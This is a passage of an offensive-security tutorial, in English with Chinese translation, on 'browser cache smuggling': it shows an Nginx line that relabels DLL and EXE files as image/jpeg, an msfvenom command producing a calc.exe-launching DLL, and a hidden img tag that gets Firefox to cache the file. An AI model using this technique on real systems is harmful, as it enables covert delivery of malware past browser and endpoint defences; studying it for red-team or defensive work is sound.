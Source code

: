As an attacker, we can override these values. Remember, our goal is to force the download of either a DLL or an EXE file. To do so, we’ll simply have to change the content type related to the DLL and EXE files from application/x-msdos-program to image/jpeg. This is simply done with the following line in your Nginx configuration:  
作为攻击者，我们可以覆盖这些值。请记住，我们的目标是强制下载 DLL 或 EXE 文件。为此，我们只需将与 DLL 和 EXE 文件相关的内容类型从 application/x-msdos-program 更改为 image/jpeg。只需在 Nginx 配置中使用以下行即可完成此操作：

```bash
types { } default_type image/jpeg;
```

This nullifies the in-memory mime type mapping, and then sets the default content type to “image/jpg” for unknown types (i.e. all files, since we nuked the mappings first). Enclosing this in a “location” block which only matches your payload(s) will achieve the desired effect without turning everything into an “image”. See part III below for the complete config in context.  
这将使内存中的 MIME 类型映射无效，然后将未知类型（即所有文件，因为我们首先对映射进行了核击）的默认内容类型设置为“image/jpg”。将其包含在仅与您的有效载荷匹配的“位置”块中，将达到预期的效果，而不会将所有内容变成“图像”。有关上下文中的完整配置，请参阅下面的第三部分。

Next, we will have to generate two things:  
接下来，我们必须生成两件事：

-   A DLL, in this case a simple one that will run calc.exe generated via MSFVenom:  
    DLL，在本例中是一个简单的 DLL，它将运行通过 MSFVenom 生成的 calc.exe：

```bash
msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f dll > calc.dll
```

-   An HTML page in which the DLL is embedded in a img tag:  
    DLL 嵌入在 img 标记中的 HTML 页面：

```html
<html>
        <body>
                <h1>Browser cache smuggling</h1>
                <img src="calc.dll" style="display: none;"></img>
        </body>
</html>
```

We then empty Firefox’s cache, reload the HTML page and see that the file was downloaded:  
然后，我们清空Firefox的缓存，重新加载HTML页面，并看到文件已下载：

![](assets/1701827279-170387a5267488f6d51d557535eaa75e.png)
